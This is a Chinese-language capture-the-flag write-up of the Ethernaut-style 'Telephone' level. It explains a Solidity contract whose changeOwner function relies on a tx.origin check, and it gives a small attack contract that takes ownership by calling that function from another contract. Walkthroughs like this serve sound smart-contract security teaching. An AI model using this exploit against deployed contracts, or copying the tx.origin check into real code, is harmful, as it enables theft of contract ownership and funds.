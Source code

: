 4_Telephone
==

本关要求
--

  1.Claim ownership of the contract below to complete this level.

合约代码
--

    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    contract Telephone {

      address public owner;

      constructor() public {
        owner = msg.sender;
      }

      function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
          owner = _owner;
        }
      }
    }
    
合约分析
--

查看<code>changeOwner</code>方法，当调用该方法时<code>tx.origin</code>的值不等于<code>msg.sender</code>，就能成功修改owner  

<code>tx.origin</code>是Solidity的一个全局变量，它遍历整个调用栈并返回最初发送调用（或事务）的帐户的地址，他与<code>msg.sender</code>的区别为：  
<code>tx.origin</code>等于初始调用合约或交易的地址
<code>msg.sender</code>等于当前调用合约或交易的地址  


攻击
--

编写攻击合约，通过接口调用的方式调用本关合约中的changeOwner方法。  

    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;

    interface TelephoneInterface {
        function changeOwner(address _owner) external;
    }

    contract TelephoneAttack{

        TelephoneInterface t_interface;

        constructor(address _addr) public {
            t_interface = TelephoneInterface(_addr);
        }

        function attack(address _attackaddr) public {
            t_interface.changeOwner(_attackaddr);
        }
    }
编译并部署攻击合约，部署地址填写本关合约地址  

查看当前owner和player的值  


使用攻击合约中的attack方法修改owner  
